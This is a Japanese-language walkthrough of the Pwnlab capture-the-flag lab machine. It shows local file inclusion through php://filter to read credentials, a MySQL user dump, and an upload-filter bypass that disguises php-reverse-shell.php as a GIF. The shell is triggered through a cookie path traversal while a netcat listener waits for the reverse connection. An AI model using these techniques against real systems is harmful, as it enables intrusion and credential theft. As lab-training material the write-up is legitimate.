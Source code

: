 ## Pwnlab
### ポートスキャンまでいつもと同じ
- 80, 111, 3306
- ポートのサービスを注意
### MySQLにアクセスするができない
- `mysql -u root -p -h 192.168.56.109`

### gobusterで隠しディレクトリを探す
- config.php,index.php,upload.phpが見つかる

### webサイトにアクセスする
- 何かをアップロードできるサイトがある。まず何とかログインできるようにする。攻略の基本として、サイトに何かアップロードできそうなら、シェルコードをアップロードしてリバースシェルを狙う
- loginページのリンクが`/?page=login`となっているので、ディレクトリトラバーサル攻撃を試してみる
- `../../../../etc/passwd`など、何も出てこないエラーが出てこないので何かはできる
- `http://192.168.56.109/config.php`にアクセスするが、白紙のページで何もない

### PHPラッパーストリームでユーザ名とパスワードを取得
- PHPラッパーストリームでパスワードやユーザ名を取得できることができるかもしれない、PHPラッパーストリームとは裏で動いているコードを見ることができる。`Hack tricks`というサイトで`php://filter`で検索するといろいろ出てくるので次のをコピーする
- `view-source:http://192.168.56.109/?page=php://filter/convert.base64-encode/resource=config`
- `PD9wa~8+`をコピーする
- `echo -n 'ペースト' | base64 -d`
- これでユーザ名とパスワードがわかる

### MySQLにアクセス
- `mysql -u root -p -h $IP`
- `show databases;`
- `use Users;`
- `show tables;`
- `select * from users;`
- ユーザ名とパスワードが出てくるので全部コピーして、pass.txtを作って、貼り付ける
- 見るとわかるが、これはBase64でencodeされてあるのでデコードする

### ブラウザでログイン
- kentで接続、パスワード`JWzXuBJJNy`

### アップローダへ攻撃
- php-reverse-shell.phpをアップロードする。このファイルは環境と設置を同時に行うものである
  - `cp /usr/share/webshells/php/php-reverse-shell.php evil.php`
  - そしたらvimで開けて、リバースシェルのアドレスを書き換える、上の方に$IPというのがあるから自分のアドレスに書き換える
  - `$IP = '192.168.56.?';  // CHANGE THIS`
  - この時にポート番号もチェックしておく
- これをアップロードするとplease upload images onlyとエラーになる。要は画像しかアップロードしかできないってこと。


### 偽の画像ファイルを作る
- vimでevil.phpを開けて、一番上に次のキーワードを書く、これでこのファイルはgif画像に騙すことができる
  - `GIF89a;`
- 次にファイルの拡張子を変える
  - `mv evil.php evil.gif` 
- これでファイルはgifファイルになったコマンドで確認してみる
  - `file evil.gif`
- このファイルをサイトにアップロードする
- `http://192.168.56.?/upload`を見てファイルがあるのを確認するが、名前が変わっているのがわかる。
- これはbase64に変換されているので、このファイルの名前をコピーしてメモしておく

### 新しいターミナルを開けて待ち受ける
- `nc -nlvp 1234`

### 偽の画像ファイルでアップロード攻撃
- ここからはBurpsuiteのブラウザを使う。また初めからログインし直す。ここはリバースシェルの発火に当たる
- `intercept on`にしてファイルをuploadする。Burpのリクエストヘッダを書き直す。Cookieの横にlangというのを付け足す
- `Cookie: PHPSESSID=?????; lang=../upload/1b7d~~~~8255.gif`
- BurpのForwardボタンを押すとncの待受にプロンプトが返ってくる

